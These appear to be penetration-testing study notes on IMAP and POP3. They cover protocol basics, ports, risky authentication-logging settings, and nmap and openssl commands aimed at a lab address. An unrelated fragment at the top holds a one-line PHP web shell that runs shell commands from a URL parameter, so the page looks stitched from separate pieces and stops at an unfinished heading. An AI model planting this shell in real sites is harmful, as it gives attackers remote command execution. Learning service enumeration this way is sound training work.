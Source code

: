 ```bash
<?php system($_GET['c']); ?>
```



# IMAP / POP3
- **POP3 (Post Office Protocol 3):** POP3 allows email clients to download emails from a mail server to a local device, typically deleting them from the server after retrieval.
- **IMAP (Internet Message Access Protocol):** IMAP enables email clients to access and manage emails directly on the server, allowing synchronization across multiple devices without removing messages from the server.
## Service Info

### port used
- POP3 ports 110 , 995 (TLS/SSL) both of them tcp
- IMAP ports 143 , 993 (TLS/SSL) both of them tcp

### Dangerous Settings

| Setting                  | Description                                                                    |
|--------------------------|--------------------------------------------------------------------------------|
| auth_debug               | Enables all authentication debug logging.                                      |
| auth_debug_passwords     | Adjusts log verbosity, the submitted passwords, and the scheme gets logged.    |
| auth_verbose             | Logs unsuccessful authentication attempts and their reasons.                    |
| auth_verbose_passwords   | Passwords used for authentication are logged and can also be truncated.        |
| auth_anonymous_username | Specifies the username to be used when logging in with the ANONYMOUS SASL mechanism. |



### Footprinting the Service

```
sudo nmap 10.129.14.128 -sV -p110,143,993,995 -sC

nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port <PORT> <IP> #All are default scripts
```

### Service Interaction



```
openssl s_client -connect 10.129.14.128:pop3s

openssl s_client -connect 10.129.14.128:imaps
```


- IMAP Commands (add `a` befire every command)
